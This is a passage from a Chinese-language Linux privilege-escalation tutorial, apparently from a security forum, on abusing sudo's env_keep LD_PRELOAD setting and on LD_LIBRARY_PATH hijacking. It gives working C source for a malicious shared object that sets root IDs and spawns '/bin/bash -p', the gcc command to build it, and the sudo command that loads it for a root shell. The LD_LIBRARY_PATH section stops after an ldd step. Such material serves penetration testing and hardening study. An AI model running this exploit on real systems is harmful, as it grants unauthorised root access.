 注意：`env_keep`包括`LD_PRELOAD`环境变量

##### 2.创建具有以下内容的文件(preload.c)：

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setresuid(0,0,0);
system("/bin/bash -p");
}
```

![image-20210704103218382](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5b483c763ff660ee75bfa48239b501490410acb9.png)

##### 3.编译preload.c到preload.so：

```php
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

##### 4.使用sudo运行任何允许的程序，同时将LD\_PRELOAD环境变量设置为preload.so文件的完整路径：

```php
sudo LD_PRELOAD=/tmp/preload.so apache2
```

![image-20210704103256577](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-93cddd194729bb8076a0ac1af2a01da9d3132662.png)

#### LD\_LIBRARY\_PATH

#### 前言

LD\_LIBRARY\_PATH环境变量包含一组目录，首先搜索共享库。  
ldd 命令可用于打印程序使用的共享库：

```php
ldd /usr/sbin/apache2
```

通过创建与程序使用的同名共享库，并将LD\_LIBRARY\_PATH设置为其父目录，程序将转而加载我们的共享库。

#### 实操

##### 1.运行ldd对apache2程序文件：

```php
ldd /usr/sbin/apache2
```

![image-20210704103440965](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-75b828ae8f3a504b1f0fa83b9540ed79c1d22c3a.png)

这个方法是进行劫持共享对象是命中或未命中的，从中选择一个列表并尝试它
